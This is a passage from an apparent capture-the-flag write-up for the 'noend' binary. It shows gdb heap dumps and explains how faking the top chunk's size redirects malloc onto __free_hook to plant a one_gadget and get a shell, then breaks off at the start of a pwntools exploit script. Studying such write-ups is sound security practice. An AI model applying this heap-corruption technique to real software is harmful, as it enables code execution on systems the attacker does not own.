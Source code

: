 ```bash
0096| 0x7f167c000080 --> 0x0 
0104| 0x7f167c000088 --> 0x7f167c000078 --> 0x7f167c000920 --> 0x0 
0112| 0x7f167c000090 --> 0x7f167c000078 --> 0x7f167c000920 --> 0x0 
0120| 0x7f167c000098 --> 0x7f167c000088 --> 0x7f167c000078 --> 0x7f167c000920 --> 0x0 
0128| 0x7f167c0000a0 --> 0x7f167c000088 --> 0x7f167c000078 --> 0x7f167c000920 --> 0x0 
..............
```

Write the top chunk pointer
```bash
gdb-peda$ telescope 0x7f167c000020 100
0000| 0x7f167c000020 --> 0x200000000 
0008| 0x7f167c000028 --> 0x7f167c0008b0 --> 0x0 
0016| 0x7f167c000030 --> 0x0 
0024| 0x7f167c000038 --> 0x0 
0032| 0x7f167c000040 --> 0x0 
0040| 0x7f167c000048 --> 0x0 
0048| 0x7f167c000050 --> 0x0 
0056| 0x7f167c000058 --> 0x0 
0064| 0x7f167c000060 --> 0x0 
0072| 0x7f167c000068 --> 0x0 
0080| 0x7f167c000070 --> 0x0 
0088| 0x7f167c000078 --> 0x7f167c000a00 --> 0x7f168bfa729a 
0096| 0x7f167c000080 --> 0x7f167c0008d0 --> 0x0 
0104| 0x7f167c000088 --> 0x7f167c0008d0 --> 0x0 
0112| 0x7f167c000090 --> 0x7f167c0008d0 --> 0x0 
0120| 0x7f167c000098 --> 0x7f167c000088 --> 0x7f167c0008d0 --> 0x0 
0128| 0x7f167c0000a0 --> 0x7f167c000088 --> 0x7f167c0008d0 --> 0x0 
....

gdb-peda$ telescope 0x7f167c000a00
0000| 0x7f167c000a00 --> 0x7f168bfa729a 
0008| 0x7f167c000a08 --> 0x7f168bfa729a 
0016| 0x7f167c000a10 --> 0x7f168bfa729a 
0024| 0x7f167c000a18 --> 0x7f168bfa729a
```

You can see that instead of size `0xFFFFFFFFFFFFFFF`, I fake the size to be `0x7f168bfa729a`. This is a little confusing? Actually I calculate the size as `onegadget+(freehook_addr top_chunk_addr)`.
This means that if I `malloc(freehook_addr-top_chunk_addr)`, the size left happens to be `onegadget` ,and it locates in the address of `freehook`!This is really hackish. Trigger `free` and you can get the shell.

Of course you can also write `system` into `freehook`.Although actually you can't write exactly `system` but `system+1` into `freehook`, because the prev inused bit of the top chunk is always set.But it won't stop you from getting a shell. Try it yourself! 


### Final Script
```python
from pwn import *

pc='./noend'

libc=ELF('./libc.so.6')

p=process(pc,env={"LD_PRELOAD":'./libc.so.6'})
gdb.attach(p,'c')
#p=remote("pwn.suctf.asuri.org",20002)


def ru(a):
    p.recvuntil(a)

def sa(a,b):
```